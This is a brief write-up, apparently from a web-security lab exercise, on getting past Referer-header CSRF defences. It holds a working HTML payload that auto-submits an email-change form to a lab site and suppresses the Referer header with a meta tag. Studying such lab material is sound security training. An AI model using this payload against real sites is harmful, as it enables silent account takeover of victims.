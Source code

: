 # CSRF Vulnerability - Double Submit
# CSRF Vulnerability - Referer Header


## Let generate some Payloads!

```php
<meta name="referrer" content="never">
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```

## Takeaway


- some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. (less effective and is often subject to bypasses.)

- Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.

- Droppding the ```Referer Header``` using:

```php
<meta name="referrer" content="never">
```
